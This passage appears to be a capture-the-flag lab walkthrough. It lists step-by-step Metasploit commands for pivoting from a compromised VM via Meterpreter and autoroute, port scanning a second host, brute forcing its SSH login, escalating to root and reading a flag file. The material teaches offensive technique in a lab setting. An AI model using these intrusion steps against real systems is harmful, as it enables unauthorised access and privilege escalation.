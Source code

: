 
#### **Part 2: Pivoting to Target VM 2**

1. **Set Up Meterpreter Session on Target VM 1:**
   - Upgrade to a Meterpreter session:
     ```bash
     sessions
     sessions -u 1
     sessions -i 2
     ```
   - Check network configuration on Target VM 2:
     ``` bash
     ipconfig
     ```
   - **Background Session 2**
     - Press Ctrl + Z to run the session in background mode. When prompted with Background session 1? [y/N], enter y to proceed.

2. **Set Up Route for Pivoting:**
   - Use the `autoroute` module to pivot from Target VM 1:
     ```bash
     use post/multi/manage/autoroute
     set SESSION 2
     set SUBNET 10.0.1.0/24
     run
     ```

3. **Port Scan Target VM 2:**
   - Scan for open ports on the second target VM:
     ```bash
     use auxiliary/scanner/portscan/tcp
     set RHOSTS <TARGET_VM_02_PRIVATE_IP>
     run
     ```

4. **SSH Brute Force on Target VM 2:**
   - Run the SSH login scanner:
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS <TARGET_VM_02_PRIVATE_IP>
     run
     sessions
     ```

5. **Obtain the Second Flag:**
   - Interact with the session and search for the second flag:
     ```bash
     sessions -i 3
     whoami
     sudo su
     whoami
     find / -type f -name "flag*"
     cat /root/flag.txt
     exit -y
     ```
